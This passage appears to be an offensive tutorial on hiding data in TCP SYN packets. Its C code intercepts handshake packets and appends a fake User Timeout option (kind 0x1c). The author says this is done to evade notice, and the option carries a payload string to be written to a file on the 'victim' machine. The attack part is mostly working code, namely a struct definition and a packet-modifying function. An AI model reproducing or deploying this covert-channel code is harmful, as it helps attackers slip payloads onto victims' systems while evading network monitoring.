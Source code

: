 The legit way to add extra data to the TCP packet would be to use an experimental option. However, we want to hide, so let's use an option that will be very common, like User Timeout (0x1c or 28). IANA has a list of option assignments on their page. 

So let's add to the code. 
***
#### `tcp_pkt_struct.h`
Insert code at the top
```c
#define METADATA_SIZE 16

#pragma pack(push, 1)
typedef struct {
    uint16_t padding;
    uint8_t opt;
    uint8_t len;
    uint32_t payload;
    uint32_t payload_2;
    uint32_t payload_3;

} pkt_meta;

#pragma pack(pop)

...

```

The option has a kind, a length, and a payload which is a string we will write to a file on the victim. The padding at the beginning is to keep the total length divisible by 4. Because the data will directly be appended to the packet, we cannot use an array and need to split the payload into chunks of 4 bytes.
***
#### `main.c`
```c
static void modify_handshk_pkt(full_tcp_pkt_t *pkt, int pkt_len) {

    /* Should match only SYN packets */
    printf("\nPacket intercepted: \n");
    if (pkt->tcp_header.syn == 1 && pkt->tcp_header.ack == 0) {
        printf("\tPacket type: SYN\n");
        pkt_meta *metadata = (pkt_meta *)((unsigned char *)pkt + pkt_len);
    	metadata->padding = 0x0101;
    	metadata->opt = 0x1c; // Custom option kind. 28 = User Timeout
    	metadata->len = METADATA_SIZE - sizeof(metadata->padding); // Custom option length. Default length of User timeout is different.
        pkt->tcp_header.doff += METADATA_SIZE / 4; // Change data offset
        
        }




}

```
